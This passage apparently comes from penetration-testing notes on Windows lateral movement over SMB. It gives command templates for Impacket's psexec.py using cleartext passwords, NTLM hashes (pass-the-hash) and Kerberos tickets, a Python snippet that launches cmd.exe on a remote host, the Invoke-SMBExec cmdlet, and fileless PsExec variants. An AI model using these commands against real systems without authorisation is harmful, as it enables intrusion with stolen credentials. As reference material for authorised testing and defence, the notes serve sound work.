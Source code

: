 `psexec.py` present the advantage of supporting both `NTLM`, uisng a cleartext
password or an `NTLM` hash, and `Kerberos` authentication, using a
`Ticket-Granting Ticket (TGT)` or a `service ticket` for the remote machine
`CIFS` service. For more information on how to make use of `service tickets`
(`Pass-the-Ticket`), refer to the `[ActiveDirectory] Kerberos - silver tickets`
note.

`psexec.py` will by default upload a binary and generate a service with a
random name and allows the specification of a network share.

```
# --target-ip: Specifies the IP address of the targeted machine. If omitted, psexec.py will use the host or IP pecified in the target string. The option is useful when the target is an unresolvable NetBIOS name.

# NTLM authentication
psexec.py [-target-ip <TARGET_IP>] [-port [<PORT>]] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> [<COMMAND> <COMMAND_ARGS>]
psexec.py -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [-port [<PORT>]] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> [<COMMAND> <COMMAND_ARGS>]

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
psexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> [<COMMAND> <COMMAND_ARGS>]
```

Additionally, `psexec.py` can easily be incorporated into custom Python
scripts:

```
import psexec

psobject = psexec.PSEXEC("cmd.exe", "c:\\windows\\system32\\", None, "445/SMB", username = '<USERNAME>', password = '<PASSWORD>')
raw_result = psobject.run("<HOSTNAME | IP>")
print raw_result
psobject.kill();
```

*Invoke-SMBExec*

The `Invoke-SMBExec` PowerShell cmdlet can be used to pass the hash over SMB in
PowerShell.

The `Invoke-SMBExec` cmdlet will by default upload a binary and generate a
service with a random name.

```
Invoke-SMBExec -Target <HOSTNAME | IP> -Domain <DOMAIN> -Username <USERNAME> -Hash <NTLMHASH> -Command "<CMD>" -verbose
```

###### [Over SMB] *Fileless* PsExec-like utilities

The `Impacket`'s `smbexec.py` Python script and the `Metasploit`'s
`exploit/windows/smb/psexec` module implement a fileless variation of
`PsExec`. Instead of uploading a binary, the created Windows service will
execute Windows built-in binaries.
